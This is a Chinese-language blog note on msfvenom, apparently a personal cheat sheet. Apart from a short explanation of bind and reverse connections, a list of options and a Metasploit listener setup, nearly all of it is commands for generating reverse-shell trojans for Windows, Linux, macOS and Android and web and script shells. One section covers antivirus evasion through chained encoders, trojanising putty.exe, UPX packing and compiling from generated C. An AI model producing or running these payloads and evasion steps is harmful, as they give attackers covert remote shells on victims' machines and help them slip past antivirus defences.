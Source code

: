 ```yaml
---
layout: post
title:  msfvenom 使用
date:   2018-10-19 17:23:03 +0800
img:
description: msfvenom 常用方法，免杀思路
categories: note
---
```


* 目录
{:toc}

## 木马连接方式

- 正向连接(bind)

    是我主动去连接别人机器上的某个端口,很显然,这样极易被对方防火墙拦掉

- 反向连接(reverse)

    是让别人机器上的某个端口上的流量主动连到我机器上的某个端口上,起码暂时对各类应用层防火墙的穿透效果还是蛮不错的

## msfvenom 常用选项

```
-l  列出所有可用的payload,编码器,空指令……
-p  指定要使用的msf的payload,也可以使用自定义payload,几乎是支持全平台的
-f  指定payload输出的文件类型,--help-formats,可查看支持的所有输出格式
-e  指定要使用那种编码器
-i  指定编码的次数,如果使用编码器
-b  指定坏字符,比如空字符截断问题,等等……
-x  使用一个自定义可执行程序模板,并将payload嵌入其中
-k  当模板被执行时,payload自动分离并注入到新的进程中,一般和-x选项一并使用
-o  指定创建好的payload的存放位置
```
## 创建监听器
```
use exploit/multi/handler
set PAYLOAD <Payload name>
set LHOST <LHOST value>
set LPORT <LPORT value>
set ExitOnSession false
exploit -j -z
```

## 创建Metasploit payload

直接使用msfvenom生成的反弹shell程序一般都会被杀毒软件无情差杀掉
避免被查杀的最普遍方法是编码，简单来说就是改变可执行文件中的代码形状，从而让只识别静态特征码的杀毒软件无法识别，且当木马运行之后，木马会将原始程序解码到内存中，如此木马原来的功能自然也不会受到影响

可以使用`x86/shikata_ga_nai `动态编码器进行混淆，简单单次混淆一般都能被杀毒软件先解码再查杀识别出来，那么尝试使用 **多重编码器多次混淆**
```
# msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -e x86/shikata_ga_nai -i 10 -f raw | msfvenom -e x86/alpha_upper -a x86 --platform windows -i5 -f raw | msfvenom -e x86/shikkata_ga_nai -a x86 --platform windows -i 10 -f raw | msfvenom -e x86/countdown -a x86 --platform windows -i 10 -b '\x00\x0a\xff' -f exe -o shell.exe
```
如果进行多次编码的马儿还是被查杀，可以尝试 **更换可执行文件模板**，重新生成木马
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -e x86/shikata_ga_nai -x putty.exe -k -i 5 -f exe -o shell.exe
```
发现更换可执行文件模板的马儿依然被查杀，编码和更换模板都行不通，可以试试 **加壳**。软件加壳基本原理就是对可执行文件进行加密压缩，执行之后将代码解压为原始程序，这里分别使用5、9级别upx加壳等级对木马进行加壳
```
upx -5 shell.exe -o upx5_shell.exe
upx -9 shell.exe -o upx9_shell.exe
```
将木马藏在可执行文件里面，文件的md5值会发生改变，杀毒软件将文件与官方原版文件进行对比即可判断是否异常，这里 **换一个不常见的可执行文件模板（可以是自己写的）**
还有可以不直接生成可执行文件，而是 **生成c代码**
```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --platform windows LHOST=<ip> LPORT=<port> -e x86/shikata_ga_nai -i 15 -b '\x00\' -f c -o shell.c
```
利用编译器编译生成可执行文件来绕过杀软



**windows平台**
```
# msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 3 -f exe -o x86_shell.exe
# msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST=<ip> LPORT=<port> -e cmd/powershell_base64 -i 3 -f raw -o x86_shell.ps1
```

**linux平台**
```
# msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f elf -o shell.elf
```

**mac平台**
```
# msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f macho -o x86_shell.macho
```

**android平台**
```
# msfvenom -a x86 --platform Android -p android/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f apk -o x86_shell.apk
```

**Web Payloads**

**PHP**

msfvenom -p php/meterpreter_reverse_tcp LHOST=<ip> LPORT=<port> -f raw -o shell.php

**ASP**
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f asp -o shell.asp
```
**JSP**
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip> LPORT=<port> -f raw -o shell.jsp
```
**WAR**
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip> LPORT=<port> -f war -o shell.war
```
**Python**
```
msfvenom -p python/meterpreter_reverse_tcp LHOST=<ip> LPORT=<port> -f raw -o rshell.py
```
**Perl**
```
msfvenom -p cmd/unix/reverse_perl LHOST=<ip> LPORT=<port> -f raw -o shell.pl
```
**Node.js**
```
msfvenom -p nodejs/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f raw -o shell.js
```
**Bash**
```
msfvenom -p cmd/unix/reverse_bash LHOST=<ip> LPORT=<port> -f raw -o shell.sh
```
**ruby**

```
# msfvenom -p ruby/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f raw -o x86_shell.rb
```
**lua**

```
# msfvenom -p cmd/unix/reverse_lua LHOST=<ip> LPORT=<port> -f raw -o x86_shell.lua
```